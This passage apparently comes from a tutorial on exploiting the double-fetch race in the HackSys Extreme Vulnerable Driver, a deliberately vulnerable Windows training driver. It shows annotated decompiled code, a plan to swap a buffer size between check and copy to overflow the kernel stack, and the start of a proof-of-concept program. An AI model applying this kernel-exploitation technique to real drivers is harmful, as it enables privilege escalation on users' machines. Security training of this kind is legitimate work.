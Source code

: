 From this we can ascertain that a buffer that we control is being sent. Removing all of the debug statements, we are left with:

```c
__int64 __fastcall sub_8681C(const void **InputBuffer)
{
  const void *SizeOfBuffer; // r9

  // creating a kernel buffer on the stack (not sure why the type is __m128i)  
  __m128i KernelBuffer[128]; // [rsp+20h] [rbp-808h] BYREF  <-- eagle eyes will notice that a buffer of size 0x808 will overwrite the return address

  // not 100% but this looks like a call to memset (zeroing out 0x800 bytes)?
  maybe_memset((__m128 *)KernelBuffer, 0, 0x800uLL);

  // this checks that our input buffer is mapped to user mode
  ProbeForRead(InputBuffer, 16LL, 1LL);

  // the size we provide is taken and checked to ensure it is <= 0x800
  SizeOfBuffer = InputBuffer[1];
  if ( (unsigned __int64)SizeOfBuffer <= 0x800 )
  {
    // here is the bug, instead of using SizeOfBuffer to make the copy
    // InputBuffer[1] is being fetched again (this is the double fetch)
    RtlCopyMemory(KernelBuffer, (unsigned __int64)*InputBuffer, (unsigned __int64)InputBuffer[1]);
    return 0LL;
  }
  else
  {
    return 0xC000000DLL;;
  }
}
```

It looks like we can try to win a race between the `if` statement and the `RtlCopyMemory` statement:

<img alt="Screenshot 2024-10-02 at 16 38 41" src="https://github.com/user-attachments/assets/6527d4d9-fd11-47f3-9de8-2676c91679f4">

The plan is to create a user space buffer of say `0xc00` bytes, send the a pointer to this `InputBuffer[0]` and a size of `0x800` in `InputBuffer[1]`, then somehow change the buffer size in the struct to `0xc00`. We will set up a basic PoC with what we know first. The `SendIOCTL` thread will also trigger the kernel dispatch routine.

## Proof of Concept

Let's start with a proof of concept with which to test connectivity:

```c
#include <stdio.h>
#include <Windows.h>

struct UserData {
    LPVOID pBuffer;
    size_t sizeOfData;
};

int main() {
    printf("HEVD Double Fetch Exploit\n=========================\n");

    // get a handle to the driver
    HANDLE hDriver = CreateFile(L"\\\\.\\HacksysExtremeVulnerableDriver",
        GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    if (hDriver == INVALID_HANDLE_VALUE) {
        printf("[!] Unable to get a handle for the driver: %d\n", GetLastError());
```
